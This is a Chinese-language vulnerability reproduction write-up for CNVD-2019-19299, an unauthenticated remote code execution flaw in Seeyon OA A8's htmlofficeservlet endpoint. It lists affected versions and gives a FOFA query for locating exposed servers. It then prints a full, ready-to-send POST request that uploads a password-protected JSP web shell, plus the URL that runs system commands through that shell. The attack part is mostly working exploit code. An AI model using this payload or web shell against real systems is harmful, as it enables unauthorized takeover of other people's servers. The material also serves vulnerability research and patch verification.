 ```yaml
---
title: 致远OA A8 htmlofficeservlet RCE漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 致远OA
---
```


# 致远 OA A8 htmlofficeservlet RCE漏洞 CNVD-2019-19299

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

> [!NOTE]
>
> title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本

> [!NOTE]
>
> 致远A8-V5协同管理软件V6.1sp1
>
> 致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
>
> 致远A8+协同管理软件V7.1

## 漏洞复现

访问目标站点 http://xxx.xxx.xxx.xxx:8088/seeyon/htmlofficeservlet

出现如下图响应，则可能含有漏洞

![](/img/20210924013621229875.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![](/img/20210924013621366212.png)

出现如图响应则为上传成功

访问 http://xxx.xxx.xxx.xxx:8088/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

![](/img/20210924013622691285.png)

## 漏洞利用POC

Goby中含有漏洞检测POC

![](/img/20210924013622895787.png)